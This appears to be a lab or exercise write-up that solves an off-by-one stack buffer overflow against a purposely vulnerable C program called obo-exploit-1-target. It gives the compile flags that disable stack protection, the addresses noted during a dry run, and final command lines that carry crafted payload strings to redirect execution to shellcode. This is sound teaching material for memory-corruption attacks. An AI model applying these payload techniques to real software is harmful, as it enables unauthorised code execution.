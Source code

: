 # Problem 2

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

# Solution

## Step 1: Compile

```bash
gcc -fno-stack-protector -O0 -ggdb3 -o obo-exploit-1-target obo-exploit-1-target.c
```

## Step 2: Dry run

```bash
./obo-exploit-1-target AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\00
```

Note the addres of shellcode.
Here, "0x80496c0".

Note EBP:
Framepointer before copy: "bffff7b8"

## Step 3: Generate exploit string.

Hex representation of "0x80496c0" in little endien format: "\xc0\x96\x04\x08"
We will put this value in our exploit string and overwrite the value of EBP such that, EBP will point to the address of shell code i.e. "0x80496c0"

Using off-by-one exploit, we can overwrite last 2 digits of the EBP address. i.e. We can put desrised value at "--" in bffff7--.
To do so, our exploit string should have 33rd character --.

## Step 4: Final run

```bash
./obo-exploit-1-target $(echo -e "AAAA\xc0\x96\x04\x08AAAAAAAAAAAAAAAAAAAAAAAA\x88")
```

```bash
./obo-exploit-1-target $(echo -e "AAAA\xc0\x96\x04\x08AAAAAAAAAAAAAAAAAAAAAAAA\x78") AAAA
```

### Helpful commands

x/40x $esp
i r ebp

